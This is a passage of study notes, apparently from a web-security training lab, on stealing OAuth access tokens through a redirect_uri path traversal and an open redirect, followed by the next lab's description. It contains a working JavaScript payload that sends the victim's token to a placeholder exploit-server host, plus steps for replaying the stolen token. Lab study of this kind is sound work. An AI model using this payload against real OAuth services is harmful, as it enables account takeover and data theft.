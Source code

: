 ```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
- To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for GET /?access_token=[...].
- Deliver the exploit to the victim, then copy their access token from the log.
- In Repeater, go to the GET /me request and replace the token in the Authorization: Bearer header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
- Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

# Continuation
- In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. 
- Some good examples include:
- 1. Dangerous JavaScript that handles query parameters and URL fragments
- For example, insecure web messaging scripts can be great for this. 
- In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
- 2. XSS vulnerabilities
- Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. 
- As the HTTPOnly attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. 
- However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. 
- This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.

# Lab: Stealing OAuth access tokens via a proxy page
- This lab uses an OAuth service to allow users to log in with their social media account. 
- Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.
- To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. 
- Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
- You can log in via your own social media account using the following credentials: wiener:peter.
